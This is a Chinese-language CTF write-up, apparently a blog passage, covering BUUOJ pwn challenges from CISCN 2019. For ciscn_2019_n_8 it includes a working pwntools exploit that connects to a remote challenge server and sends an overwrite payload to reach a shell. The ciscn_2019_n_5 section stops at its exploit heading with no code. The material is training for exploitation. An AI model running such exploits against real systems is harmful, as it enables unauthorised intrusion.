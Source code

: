 ### ciscn_2019_en_2

可能放错文件了，和上面一题是同个文件

### ciscn_2019_n_8

例行检查

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghny7dsp8bj30pe066gls.jpg)

保护全开

ida pro打开

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghny6ecercj317i0u0din.jpg)

有后门函数，只要输入的字符串中在var[13]处是`\x11`（17）即可

exp

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *

elf = ELF('./ciscn_2019_n_8')
#p = process('./ciscn_2019_n_8')
p = remote("node3.buuoj.cn", 28995)
context.log_level='debug'
#gdb.attach(p,'b *$rebase(0x1324)')

p.recvuntil('name?\n')
payload = 'a'*32+'b'*20+'\x11'
p.sendline(payload)

p.interactive()

```

### ciscn_2019_n_5

例行检查

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghny686nxkj30yq074aax.jpg)

没有保护

ida pro打开

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghnylftk2xj31e40hqta1.jpg)

啊这

一样的rop

exp
